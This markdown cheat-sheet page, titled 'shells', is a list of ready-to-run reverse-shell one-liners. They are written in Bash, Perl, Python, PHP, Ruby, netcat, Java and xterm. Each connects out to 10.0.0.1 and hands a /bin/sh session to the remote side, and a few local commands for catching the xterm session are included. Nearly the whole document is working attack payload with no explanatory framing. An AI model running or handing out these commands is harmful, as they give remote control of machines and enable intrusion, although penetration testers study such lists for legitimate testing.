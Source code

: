 ```yaml
---
layout: default
title: shells
tags:
    - bash
    - java
    - netcat
    - nc
    - perl
    - php
    - python
    - reverse
    - ruby
    - xterm
---
```

# shells

### Reverse Shells
Bash

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

Perl

`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

PHP

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

Netcat

`nc -e /bin/sh 10.0.0.1 1234`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f` _(no `-e` flag)_

Java

`r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()`

xterm

`xterm -display 10.0.0.1:1` _(port 6001)_

- Locally, to catch the incoming session on port 6001 `Xnest :1`
- Locally, to authorise the target's connection `xhost +targetip`

